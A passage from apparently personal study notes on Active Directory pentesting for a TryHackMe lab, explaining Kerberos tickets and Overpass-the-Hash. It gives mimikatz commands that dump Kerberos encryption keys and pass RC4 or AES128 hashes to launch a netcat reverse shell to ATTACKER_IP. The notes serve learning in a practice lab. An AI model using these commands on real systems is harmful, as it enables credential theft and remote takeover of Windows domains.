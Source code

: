 ## Kerberos

![Untitled](Active%20Directory%20Pentesting%2013bdf411f877497282c549a5fd16d4c9/Untitled%203.png)

![Untitled](Active%20Directory%20Pentesting%2013bdf411f877497282c549a5fd16d4c9/Untitled%204.png)

![Untitled](Active%20Directory%20Pentesting%2013bdf411f877497282c549a5fd16d4c9/Untitled%205.png)

- logged in users are assigned tickets
    - tickets are proof of previous authentication
- when authenticating to a service (e.g. share, website, or database), ticket is used (sort of like how web uses auth tokens or cookies)

Kerberos authentication process:

1. Username and timestamp encrypted using password and sent to **Key Distribution Center (KDC)**
    - KDC is responsible for creating Kerberos tickets
2. KDC sends back a **Ticket Granting Ticket (TGT)** and **Session Key**
    - TGT allows user to request additional tickets to access specific services
    - TGT encrypted with krbtgt password hash to help prevent user from tampering its contents
        - TGT contain session key, expiration date, and user’s IP address
3. When user attempts to access a service, the KDC sends a **Ticket Granting Service (TGS)** and **Service Session Key** 
    - TGS tickets only allow a user to access a specific service
    - user sends username and timestamp encrypted with their session key, and also sends their TGT, and **Service Principal Name (SPN)**
        - SPN is service and server name user wants to access
    - TGS encrypted with key derived from the Service Owner Hash
        - Service owner is user or machine that manages the service

### Overpass-the-Hash / Pass-the-Key

- when a user requests a TGT, a timestamp encrypted with key derived from password is used
    - encrypted uses either DES (disabled by default on current Windows versions), RC4, AES128, or AES256
- can request KDC for TGT with just having the key and not the user’s password

Obtaining Kerberos Encryption Keys

```
mimikatz# privilege::debug
mimikatz# sekurlsa::ekeys
```

**Getting Reverse Shell with Encryption Key**

RC4

`mimikatz **#** sekurlsa::pth /user:Administrator /domain:za.tryhackme.com /rc4:96ea24eff4dff1fbe13818fbf12ea7d8 /run:"c:\tools\nc64.exe -e cmd.exe ATTACKER_IP 5556"`

- note that RC4 simply uses the user’s NTLM hash

AES128
`mimikatz **#** sekurlsa::pth /user:Administrator /domain:za.tryhackme.com /aes128:b65ea8151f13a31d01377f5934bf3883 /run:"c:\tools\nc64.exe -e cmd.exe ATTACKER_IP 5556"`
